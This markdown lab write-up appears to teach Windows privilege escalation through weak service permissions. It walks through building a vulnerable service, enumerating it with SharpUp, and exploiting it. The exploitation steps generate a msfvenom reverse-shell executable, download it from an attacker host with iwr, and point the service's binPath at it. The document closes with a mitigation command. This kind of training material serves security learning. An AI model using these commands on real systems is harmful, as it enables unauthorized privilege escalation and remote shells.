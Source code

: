 # Weak Service Permissions

## Table of Contents

- [Weak Service Permissions](#weak-service-permissions)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Weak Service Permissions" on Windows indicate insufficient or incorrect permissions within services. Exploiting this vulnerability enables attackers to gain unauthorized access or elevated privileges by manipulating a service's configuration.

## Lab Setup

### Manual Lab Setup

1) Open a PowerShell with local Administrtor Privileges and use the following command to create a new folder:

```
mkdir "C:\Program Files\CustomSrv3\"
```

2) Download the file [Service3.exe](/Lab-Setup-Binary/Service3.exe) to the 'C:\Program Files\CustomSrv3' directory.

3) Install the new Service:

```
New-Service -Name "Vulnerable Service 3" -BinaryPathName "C:\Program Files\CustomSrv3\Service3.exe" -DisplayName "Vuln Service 3" -Description "My Custom Vulnerable Service 3" -StartupType Automatic
```

4) Edit new service's permissions to be controlled by BUILTIN\Users:

```
cmd.exe /c 'sc sdset "Vulnerable Service 3" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;DCRPWP;;;BU)'
```

Outcome:

![Weak-Service-Permissions-Manual-Lab-Setup](/Pictures/Weak-Service-Permissions-Manual-Lab-Setup.png)

5) Verify the new service (services.msc):

![Weak-Service-Permissions-Verify-Service](/Pictures/Weak-Service-Permissions-Verify-Service.png)

6) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
Remove-Service -Name "Vulnerable Service 3"
```

### PowerShell Script Lab Setup

To set up the lab with the 'Weak Service Binary Permissions' vulnerability is by using the custom PowerShell script named [WeakServicePermissions.ps1](/Lab-Setup-Scripts/WeakServicePermissions.ps1).

1) Open a PowerShelll with local Administrator privileges and run the script:

```
.\WeakServicePermissions.ps1
```

Outcome:

![Weak-Service-Permissions-Script-Lab-Setup](/Pictures/Weak-Service-Permissions-Script-Lab-Setup.png)

2) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
Remove-Service -Name "Vulnerable Service 3"
```

## Enumeration

To run the SharpUp tool and perform an enumeration of the `Weak Service Permissions` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit ModifiableServices
```

Outcome:

![Weak-Service-Permissions-Tool-Enumeration](/Pictures/Weak-Service-Permissions-Tool-Enumeration.png)

## Exploitation

1) Create with msfvenom a malicious exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > nikos.exe
```

2)  Open a listener in your kali machine. 

3) Create Temp folder:

```
mkdir C:\TempFolder
```

4) Transfer malicious executablr file in Temp folder:

```
iwr -Uri http://<ip>:<port>/nikos.exe -Outfile C:\TempFolder\nikos.exe
```

5) Reconfigure the binary path on the vulnerable service:

```
sc config "Vulnerable Service 3" binPath= C:\TempFolder\nikos.exe
```

6) Verify that the path has indeed been updated:

```
sc qc "Vulnerable Service 3"
```

Outcome:

![Weak-Service-Permissions-Exploitation-1](/Pictures/Weak-Service-Permissions-Exploitation-1.png)

7) Stop the running service:

```
sc stop "Vulnerable Service 3"
```

8) Start the vulnerable service:

```
sc start "Vulnerable Service 3"
```

Outcome:

![Weak-Service-Permissions-Exploitation-2](/Pictures/Weak-Service-Permissions-Exploitation-2.png)

9) Verify the reverse shell on your Kali machine:

![Weak-Service-Permissions-Reverse-Shell](/Pictures/Weak-Service-Permissions-Reverse-Shell.png)

## Mitigation

To defend against Weak Service Permissions vulnerabilities, adjust permissions on Service initiated through this mechanism. This limits unauthorized access and strengthens security measures:

```
sc sdset "Vulnerable Service 3" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)
```

## References

- [Introduction to Windows Services applications Microsoft](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/introduction-to-windows-service-applications)
- [Hot to Create Windows Services Microsoft](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/how-to-create-windows-services)
- [How to View and Modify Service Permissions in Windows by winhelponline](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/?expand_article=1)